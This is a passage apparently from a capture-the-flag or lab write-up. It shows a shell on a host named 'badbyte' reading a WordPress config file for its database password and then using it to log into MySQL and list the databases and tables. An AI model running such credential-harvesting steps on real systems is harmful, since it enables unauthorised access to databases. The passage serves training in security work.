 ```bash
cth@badbyte:/usr/share/wordpress$ cat /etc/wordpress/config-default.php
<?php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'THE_DB_PASSWORD');
define('DB_HOST', 'localhost');
define('DB_COLLATE', 'utf8_general_ci');
define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
?>
```

I used the found credentials to connect to the database and looked around. 

```bash
mysql -uwordpress -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 31512
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_wordpress    |
+------------------------+
| wp_commentmeta         |
| wp_comments            |
| wp_duplicator_packages |
| wp_links               |
| wp_options             |
| wp_postmeta            |
| wp_posts               |
| wp_term_relationships  |
| wp_term_taxonomy       |
| wp_termmeta            |
| wp_terms               |
| wp_usermeta            |
| wp_users               |
```